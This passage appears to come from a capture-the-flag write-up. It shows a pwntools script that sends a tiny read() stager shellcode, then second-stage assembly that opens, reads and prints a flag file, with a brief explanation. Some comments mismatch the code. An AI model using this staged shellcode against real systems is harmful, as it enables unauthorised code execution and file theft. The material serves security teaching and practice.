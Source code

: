 ```python

# Stage 1 shellcode
sc = f"""
//read(rsi=0, rdi=rip, rdx=1000) #rcx=RIP
push rdx
pop rsi
push rax
pop rdi
syscall
"""

# Read flag shellcode
sc_flag = f"""
.rept 128
nop
.endr

// open("/flag", NULL)
lea rbx, [rip+flag] # load /flag [flag]
mov rax, 2
mov rdi, rbx
mov rsi, 0
syscall

// read(rax, buffer, 1000)
lea rdi, [rax] # file descriptor
lea rsi, [rip+buffer] # buffer
mov rdx, 1000 # count
mov rax, 0 # sys_read
syscall

// write(1, buffer, rax)
mov rdi, 1 # stdout
lea rsi, [rip+buffer] # buffer
mov rdx, rax # bytes read
mov rax, 1 # sys_write
syscall

flag:
.string "./flag"
buffer:
.space 1000
"""

p.recv()
p.send(asm(sc))
p.send(asm(sc_flag))
p.interactive()
```
This script employs a clever 6-byte shellcode that performs two important tasks: it reads additional bytes from stdin and writes them to the location where execution continues. **sys.read()** requires three arguments: a file descriptor, a buffer and a size value:  
`read(int fd, void *buf, size_t count);`.  
